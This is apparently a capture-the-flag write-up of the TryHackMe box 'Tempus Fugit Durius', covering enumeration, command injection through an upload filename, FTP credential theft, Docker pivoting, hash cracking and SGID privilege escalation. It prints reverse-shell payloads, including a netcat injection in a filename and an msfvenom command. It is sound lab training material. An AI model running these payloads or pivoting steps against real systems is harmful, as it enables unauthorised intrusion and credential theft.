This box is rated hard difficulty on THM and directly translates to "Time flies harder". 

It involves us finding a command injection vulnerability in a file upload function that lets us get a reverse shell on the server. Then, we enumerate FTP internally using a python script to get admin credentials and enumerate a subnet using port forwarding and Nmap to find other hosts, as we are stuck in a Docker container. 

In doing so gives us a different domain with an admin login for a CMS, letting us grab a second reverse shell. We dump a database file using sqlite3 to get a user's hash and find that he has access to a binary with the SGID bit set. Finally, using that binary to read a log file will grant us the root password.

_The latin word Durius means "harder"_

## Scanning & Enumeration
I begin with an Nmap scan against the given IP to find any and all running services on the host. I repeat this process for UDP and don't find anything.

```
$ sudo nmap -p22,80,111,53056 -sCV 10.64.156.43 -oN fullscan-tcp
                                                                  
Starting Nmap 7.95 ( https://nmap.org ) at 2026-01-26 18:08 CST
Nmap scan report for 10.64.156.43
Host is up (0.042s latency).

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u8 (protocol 2.0)
| ssh-hostkey: 
|   1024 b1:ac:a9:92:d3:2a:69:91:68:b4:6a:ac:45:43:fb:ed (DSA)
|   2048 3a:3f:9f:59:29:c8:20:d7:3a:c5:04:aa:82:36:68:3f (RSA)
|   256 f9:2f:bb:e3:ab:95:ee:9e:78:7c:91:18:7d:95:84:ab (ECDSA)
|_  256 49:0e:6f:cb:ec:6c:a5:97:67:cc:3c:31:ad:94:a4:54 (ED25519)
80/tcp    open  http    nginx 1.6.2
|_http-server-header: nginx/1.6.2
|_http-trane-info: Problem with XML parsing of /evox/about
|_http-title: Tempus Fugit Durius
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          35815/tcp6  status
|   100024  1          51572/udp6  status
|   100024  1          53056/tcp   status
|_  100024  1          56837/udp   status
53056/tcp open  status  1 (RPC #100024)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.64 seconds
```

Looks to be a linux machine with a channel open for rpc. There are just four ports open:
- SSH on port 22
- An nginx web server on port 80
- rpcbind on port 111
- something pertaining to rpc on port 53056

Checking out the landing page on port 80 shows that the website's purpose us to upload things on their FTP server for safekeeping. There's also a username of 4ndr34z (box creator) we may use.



This is interesting as we can not read FTP directly, but this upload API allows us to communicate with it. I'm guessing an administrator will be checking these scripts which will auto-execute them for our sake.

Something pretty cool happens whenever scanning for subdirectories with gobuster/dirsearch. I kept getting 200 OK responses from the server, so I thought it was a custom 404 page. Looking at different endpoints that didn't exist showed a script was running to display unique quotes on the screen, and in turn making it very hard to fuzz for real directories as we can't filter by page size or response code.



This is a pretty fool-proof way to block any attempts at fuzzing endpoints on a server. However we aren't fools and Ffuf allows for filtering regular expressions by supplying the `-fr` flag, this is what I use:

```
$ ffuf -u http://10.64.156.43/FUZZ \
     -w /opt/SecLists/directory-list-2.3-medium.txt \
     -mc all \
     -fr "400 - Sorry|Maybe this will cheer you up:"

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.64.156.43/FUZZ
 :: Wordlist         : FUZZ: /opt/SecLists/directory-list-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: all
 :: Filter           : Regexp: 400 - Sorry|Maybe this will cheer you up:
________________________________________________

static                  [Status: 301, Size: 185, Words: 6, Lines: 8, Duration: 48ms]
upload                  [Status: 200, Size: 2006, Words: 254, Lines: 57, Duration: 123ms]
staticpages             [Status: 404, Size: 169, Words: 6, Lines: 8, Duration: 40ms]
statics                 [Status: 404, Size: 169, Words: 6, Lines: 8, Duration: 51ms]
staticContent           [Status: 404, Size: 169, Words: 6, Lines: 8, Duration: 49ms]
staticseal_gd           [Status: 404, Size: 169, Words: 6, Lines: 8, Duration: 48ms]
staticcamp              [Status: 404, Size: 169, Words: 6, Lines: 8, Duration: 48ms]
staticDisplay           [Status: 404, Size: 169, Words: 6, Lines: 8, Duration: 63ms]
staticctrl              [Status: 404, Size: 169, Words: 6, Lines: 8, Duration: 74ms]
static-content          [Status: 404, Size: 169, Words: 6, Lines: 8, Duration: 50ms]
staticlinks             [Status: 404, Size: 169, Words: 6, Lines: 8, Duration: 62ms]
staticpage              [Status: 404, Size: 169, Words: 6, Lines: 8, Duration: 84ms]
static_tour             [Status: 404, Size: 169, Words: 6, Lines: 8, Duration: 52ms]
statichtml              [Status: 404, Size: 169, Words: 6, Lines: 8, Duration: 58ms]
:: Progress: [220560/220560] :: Job [1/1] :: 277 req/sec :: Duration: [0:13:12] :: Errors: 0 ::
```

This doesn't return much but we can be sure that the upload API is the correct route to take now. Also interestingly, using a known page that responds with a 403 Forbidden in any part of the fuzzing string will return an actual 404 Not Found page (ie. static and staticpages).





I capture a request while uploading a test script and find that the server only allows for `.txt` and `.rtf` files.



I was curious about the cookie being set once uploaded so I unsigned it using flask-unsign and found out it was the reason for this popup.



I tried changing the extension of my uploaded script from `.txt` to many malicious ones like `.txt.php` and altering it mid request to be `.sh`, however neither one worked. I did find it interesting that `.rtf` files were allowed on the server, because these allow for OLE embedded objects in some cases and can potentially lead to RCE.

Before getting around to that, I found that while intercepting a file upload, we could append a command after our specified file name to get command execution via the web server.



Let's change this command to a simple reverse shell pointed at our attacking machine. This confirms the server is running on Flask/Python as well.

## Initial Foothold
I tried the netcat mkfifo method but the server responds that the filename was way too long. I spent some time researching ways to shorten the shells and went with a payload of:

```
Content-Disposition: form-data; name="file"; filename="a.txt;nc 0xC0A89049 9001 -e sh"
```

In this case I had to transform my IP to hex in order to cut a few characters off and rename my valid file to a.txt. After that is taken care off, we get a successful shell on the server as www. Let's start looking for ways to escalate privileges to root as there are no other users on the system. I also upgrade my shell using the typical python3 -c import pty method.

I begin with some manual enumeration on any writable files for our current user and any SUID bits set for valuable files but don't find anything. A quick check in the `/` dir shows a `.dockerenv` file meaning we're in a Docker container.

There is also a `start.sh` script which denotes that if there is a prestart.sh script in /app, it will run it before carrying on. This script is used to start a hypersvisor using nginx and a uWSGI (serves as a web server gateway interface for Python application).





There is nothing too crazy about the hypervisor script so I head over to /app and start checking files in there. Inside prestart.sh is a simple script that will perform migrations if needed for the hypervisor.


I also take a look inside main.py for any hardcoded creds and to my luck, I find an FTP login for 'someuser' at `ftp.mofo.pwn`.



## FTP Creds
Attempting to access the FPT server shows that the tool isn't installed on the box, however we can either port forward this with netcat or write a simple Python script to sign in, keeping to the theme.

```
#!/usr/bin/python

from ftplib import FTP

ftp = FTP('ftp.mofo.pwn')
ftp.login('someuser','[REDACTED]')
ftp.retrlines('LIST')
```



There is a creds.txt file, that was not uploaded by me. Hopefully this will contain some juicy SSH credentials for us. To retrieve this, I update my script to contain some lines to write the file as bytes and put it on our current dir:

```
#!/usr/bin/python

from ftplib import FTP

ftp = FTP('ftp.mofo.pwn')
ftp.login('someuser','[REDACTED]')
ftp.retrlines('LIST')
with open ('creds.txt', 'wb') as fp:
  ftp.retrbinary('RETR creds.txt', fp.write)
  ftp.quit()
```

After executing that, I find a pair of creds for an admin.



These are most likely used for the Docker container and not root's password so let's begin enumerating where we are. Ifconfig shows us another host located at `192.168.150.10`.



## Subnet Enumeration
In order to escape our current container and access the host on that interface, we'll need to port forward it to our machine. I use nc for this part as we actually have access to it, however if you're in something like a Meterpreter shell, that makes it a bit easier.

```
mkfifo /tmp/f; nc -lvnp 8888 < /tmp/f | nc 192.168.150.10 80 > /tmp/f
```

This command forwards the other host's service on port 80 to our local machine and listens on port 8888. I did this in hopes for an admin login page or something similar however, it only brought the same application as in the beginning. 

I repeat this process using CIDR notation in order to run an Nmap scan on that host to find more services. Only problem is we don't have Nmap or any of the likes on the server so we'll have to use a tool like proxychains to complete this task. For sanity's sake, I upgrade my shell to Meterpreter as Metasploit's modules accomplish this very easily and I won't have to setup more reverse shells to run a proxy.

```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4444 -f elf -o shell.elf
```

First, I autoroute the subnet using `/post/multi/manage/autoroute` while setting the subnet to `192.168.150.0` and the session to our one up on the Docker container.



Then, I set up a proxy chain using the `/auxiliary/server/socks_proxy` module to be able to run Nmap against that subnet and find out more info.



Firing up Nmap will take a very long time to go through all of the hosts, so I enumerate the most common ports first. Doing so actually lists all the ports being filtered and the broadcast being closed, so I know it's working but the packet is probably being dropped by a firewall or something.


To work around this, I use a bash for loop to cycle through the entire subnet on port 80 and have it print any hosts that don't discard our TCP packets.

```
for i in {1..254}; do
  timeout 2 proxychains nc -z 192.168.150.$i 80 2>/dev/null && \
  echo "[+] 192.168.150.$i:80 OPEN"
done
```



We can see that port 80 on both `192.168.150.1` and `192.168.150.10` are open. We can skip the second one as we already forwarded that and found nothing on the webpage. I port forward that webpage using meterpreter again and have a look.

```
portfwd add -l 4567 -p 80 -r 192.168.150.1
```

Hey we actually find something else, good to know this isn't a rabbit hole after all.


Now we can find some directories using gobuster. Make sure to set the timing to lowest as our proxies can get overwhelmed and the queries will be timed out if not.


The `/admin` dir looks interesting especially because we have credentials for an administrator, but it gets stuck loading. I end up doing a dig on the compromised machine to find any other alternate names. Since ftp.mofo.pwn had its own subdomain, I figured that an admin panel would have one too.



## DNS records
Looking at the DNS zone transfer contents displays two other subdomains with CNAME records. I doubt www has one because it is exposed to the web and we already enumerated ftp, so let's check out `newcms.mofo.pwn`.

I add those domains to my /etc/hosts file and continue on. I navigate to /admin and find a login panel at last. Using the credentials found while enumerating FTP grants us a successful logon and we can have a look around.


Looks like your run of the mill CMS and we already have access to the settings tab which will let us change a theme's source code. To get a reverse shell on this host, I use Pentestmonkey's PHP reverse shell and replace the blog.html template with our malicious code.

After setting up a netcat listener, we have a shell as `www-data` yet again except we're on the correct system.



## Privilege Escalation
Let's begin looking at routes for privilege escalation. I check for the typical SUID bits set, loose sudo privs, and backups laying around in /var, but find nothing of importance. Checking the html data for the website gives us a few database files to play around with.



We can dump the contents of database.sdb (not the first one because its size is 0) by transfering it to our attacking machine with something like netcat. I use sqlite3 here and select all from the users table.



Ok, we get two hashes for users Ben Clover and Hugh Gant. Let's send them over to JohnTheRipper or Hashcat to try and crack them for a plaintext password.

_Note: Do not try to crack hashes on a VM if you have the choice, it will take an eternity._

```
sudo john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

After a half hour and several wordlists, I get a hit for Ben Dover's password. Let's SSH onto the box using his username of benclover and find how to get to root user.

Again, I manually enumerate the box looking for special permissions on any files or interesting backups/logs and only find that there is an auth.log under `/var/log`, but we don't have access to it right now. A bit more digging and it seems like the `ispell` binary has its SGID bit set.

This binary is typically just a spell checker, but our friends over at GTFOBins have a great method to spawn a shell from it and read files using those higher privileges. 



Doing so won't let us read root.txt directly, so I fallback to the auth.log file and find a line with potential creds for root user. It seems like the system prompted a sign in on SSH and the user accidentally supplied their password instead of a username.



Switching users will grant us root access on the box and we can grab that final flag at `/root/flag2.txt`.



That's all folks; this box itself was pretty fun as a whole but I had heaps of problems getting a solid connection while port forwarding and had to reset the machine more than once. Either way I really liked the concept of enumerating the subdomain to find another host. 

Thanks to 4ndr34z for creating yet another great box to pwn. I hope this was helpful to anyone following along and happy hacking!
